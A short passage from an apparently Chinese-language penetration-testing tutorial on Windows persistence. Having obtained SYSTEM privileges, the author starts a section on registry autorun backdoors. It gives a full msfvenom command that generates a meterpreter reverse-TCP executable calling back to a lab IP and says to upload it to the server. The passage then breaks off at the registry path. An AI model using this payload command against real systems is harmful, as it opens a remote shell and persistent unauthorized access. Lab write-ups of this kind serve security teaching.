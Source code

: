 ![Alt text](image-97.png)   
并且权限为`system`。   
### 1.2 注册表自启动后门
首先使用 `kali` 制作一个后门程序。   
```bash
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.228.129 LPORT=5555 -f exe -o 5555.exe 
```   
![Alt text](image-98.png)   
将后门程序，上传到服务器中。   
![Alt text](image-99.png)   
注册表位置：   